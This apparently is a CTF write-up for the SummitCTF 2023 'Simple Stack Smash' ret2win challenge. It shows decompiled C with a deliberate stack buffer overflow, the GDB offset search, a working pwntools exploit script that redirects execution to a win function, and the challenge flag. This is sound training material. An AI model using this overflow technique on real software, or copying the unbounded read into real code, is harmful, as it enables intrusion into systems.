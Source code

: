 ```yaml
---
title: "Simple Stack Smash (SummitCTF 2023)"
summary: "Easy pwn Challenge - ret2win"
description: "Easy pwn Challenge - 100 points"
tags: [pwn, SummitCTF2023, easy, writeup]
date: 2023-04-23T22:00:00-05:00
draft: false
searchHidden: false
ShowToc: true
TocOpen: false
hidemeta: false
# weight: 1
---
```


## Description

Can you perform a simple stack smash? I hope so, you'll need to in order to reach the summit...

Use `nc 0.cloud.chals.io 24579` to connect

Given file: [simple-stack-smash](/summitctf-simple-stack-smash/simple-stack-smash)

---

## Writeup

I'm going to use GDB with the [pwndbg](https://github.com/pwndbg/pwndbg) plugin for this challenge. Run `gdb <file>`

![name](/summitctf-simple-stack-smash/2023-04-23-21-44-48.png#center)

Here is the main function revealed in Ghidra:

```c
undefined4 main(void)
{
  char name_input [16];
  
  setvbuf(stdout,(char *)0,2,0);
  setvbuf(stderr,(char *)0,2,0);
  printf("Please enter your name: ");
  fgets(name_input,1024,stdin);
  printf("Hello, %s!\n",name_input);
  return 0;
}
```
Curiously, there exists a `win` function:

```c
void win(void)
{
  system("cat /src/flag.txt");
  exit(0);
}
```

A ret2win challenge, where the objective is to redirect execution to the win function (`win_addr`). To do so, we need to figure out at what point of our input, the buffer overflow occurs (`offset`).

In gdb, `info fun win`: gives us the win_addr =` 0x08049216`

To find the offset we send a bunch of strings in the following cyclic pattern:
`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa..` to find until what letter can the stack hold.
```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./simple-stack-smash")
p = elf.process()
win_addr = 0x08049216

context.binary = elf
context.log_level = "DEBUG"
gdb.attach(p)

p.sendline(cyclic(100))  # send pattern
p.interactive()  
# run script, enter 'c' in gdb to continue
```
We can see in gdb that the program SEGFAULTed when it's `%EIP` was pointing to 'gaaa' which caused the buffer overflow. If you're unfamiliar with assembly registers, `%EIP` is the instruction pointer which tells the computer what the next command is that must be executed. After making `%EIP` to point to our win function, we get the flag.

![name](/summitctf-simple-stack-smash/2023-04-23-23-04.png#center)

&nbsp;

### Solve script
Completing the script:
```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./simple-stack-smash")
p = elf.process()
win_addr = 0x08049216

context.binary = elf

# context.log_level = "DEBUG"
# gdb.attach(p)
# p.sendline(cyclic(100))  # sending pattern

offset = cyclic_find("gaaa")

p.sendlineafter(b"name: ", b"A" * offset + p32(win_addr))
p.interactive()
```

## Flag

`summitCTF{G1mMI3_S0M3th1NG_H4rD3r_PlZ}`

---